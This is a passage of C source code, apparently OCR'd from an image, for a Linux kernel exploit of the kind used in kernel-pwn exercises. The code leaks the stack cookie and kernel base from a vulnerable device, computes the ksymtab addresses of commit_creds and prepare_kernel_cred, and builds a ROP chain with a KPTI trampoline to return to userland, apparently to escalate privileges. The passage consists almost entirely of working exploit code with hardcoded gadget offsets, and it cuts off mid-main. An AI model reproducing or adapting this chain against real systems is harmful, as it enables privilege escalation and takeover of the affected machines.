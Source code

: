         ".att_syntax;"
    );
    puts("[*] Saved state");
}

void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    printf("[+] leaked cookie: 0x%lx\n", cookie);
    uint64_t kernel_base = leak[38] - 0x0a157UL;
    printf("[+] leaked kernel_base 0x%lx\n", kernel_base);
    ksymtab_prepare_kernel_cred = kernel_base + 0xf8d4fcUL;
    printf("[+] leaked ksymtab_prepare_kernel_cred 0x%lx\n", ksymtab_prepare_kernel_cred);
    ksymtab_commit_creds = kernel_base + 0xf87d90UL;
    printf("[+] leaked ksymtab_commit_creds 0x%lx\n", ksymtab_commit_creds);

    pop_rax_ret = kernel_base + 0x4d11UL;
    read_mem_pop1_ret = kernel_base + 0x4aaeUL; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
    swapgs_restore_regs_and_return_to_usermode = kernel_base + 0x200f10UL; // the offset from /proc/kallsyms
}

void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp, rax;"
        ".att_syntax;"
    );
    uint64_t commit_creds = ksymtab_commit_creds + (int)tmp;
    printf("[+] leaked commit_creds 0x%lx\n", ksymtab_commit_creds + tmp);
}

void stage1(){
    uint8_t sz = 50;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rax_ret;
    payload[cookie_off++] = (uint64_t) ksymtab_commit_creds - 0x10;
    payload[cookie_off++] = (uint64_t) read_mem_pop1_ret;
    payload[cookie_off++] = (uint64_t) 0; // dummy pop

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // The KPTI trampoline
    payload[cookie_off++] = (uint64_t) 0; // dummy rax
    payload[cookie_off++] = (uint64_t) 0; // dummy rdi

    payload[cookie_off++] = (uint64_t) get_commit_creds;  // compute the location of commit_creds

    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();
    stage1();